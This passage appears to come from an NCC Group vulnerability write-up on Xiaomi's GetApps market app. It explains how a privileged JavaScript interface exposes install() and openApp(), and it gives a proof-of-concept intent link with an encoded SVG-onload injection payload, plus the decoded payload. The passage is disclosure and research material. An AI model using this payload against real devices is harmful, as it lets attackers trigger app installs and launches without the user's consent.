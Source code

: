 ### Privileged JavaScript Interface WebEvent

The previously mentioned privileged WebView loads the JavaScript Interface “WebEvent” (`com.xiaomi.market.webview.WebEvent`). 

This JavaScript Interface contained two useful methods which could be executed via JavaScript:

* `install(String)` – this method will install any application that is available on the getApps store, assuming that the application is available within the region that the device is configured for
* `openApp(String)` – this method will find the launch intent for any installed application and run that intent, opening the specified application

### Launching WebView and Executing Against WebView

In order to execute JavaScript against the “WebEvent” JavaScript Interface, the i`ntegral-dialog-page.html` page must be launched and user input must contain the appropriate JavaScript.

The following Browsable Intent can be used to launch the privileged WebView, load the page `integral-dialog-page.html`, and execute the JavaScript command `alert(marketAPI)`. This shows that it is possible to execute arbitrarily against the privileged JavaScript Interface found at `com.xiaomi.market.webview.WebEvent`:

```
<h1> 
<a id="yayidyay" rel="noreferrer" href="intent://browse?url=file%3A%2F%2Fintegral-dialog-page.html?integralInfo=%7b%22%74%69%74%6c%65%22%3a%22%6c%6f%6f%6b%20%61%74%20%6d%79%20%50%6f%43%21%22%2c%22%74%79%70%65%22%3a%22%79%61%79%74%79%70%65%79%61%79%5c%75%30%30%32%32%5c%75%30%30%33%65%5c%75%30%30%33%63%73%76%67%20%6f%6e%6c%6f%61%64%5c%75%30%30%33%64%5c%75%30%30%32%32%6a%61%76%61%73%63%72%69%70%74%5c%75%30%30%33%61%61%6c%65%72%74%28%27%70%72%69%76%69%6c%65%67%65%64%20%6d%61%72%6b%65%74%41%50%49%3a%20%27%20%2b%20%6d%61%72%6b%65%74%41%50%49%29%5c%75%30%30%32%32%5c%75%30%30%33%65%22%2c%22%73%75%62%74%69%74%6c%65%22%3a%22%62%72%6f%75%67%68%74%20%74%6f%20%79%6f%75%20%62%79%20%4e%43%43%20%47%72%6f%75%70%22%2c%22%74%69%70%73%22%3a%22%61%6c%73%6f%20%50%69%63%68%75%20%69%73%20%61%77%65%73%6f%6d%65%22%2c%22%62%74%6e%54%69%70%73%22%3a%22%79%61%79%65%78%70%6c%6f%69%74%79%61%79%22%7d#Intent;action=android.intent.action.VIEW;scheme=mimarket;end">
        YAYPOCYAY</a>
</h1>
```

Decoded payload value:

```
file://integral-dialog-page.html?integralInfo={"title":"look at my PoC!","type":"yaytypeyay"><svg onload="javascript:alert('privileged marketAPI: ' + marketAPI)">","subtitle":"brought to you by NCC Group","tips":"also Pichu is awesome","btnTips":"yayexploityay"}
```

Screenshot:

<div align="center">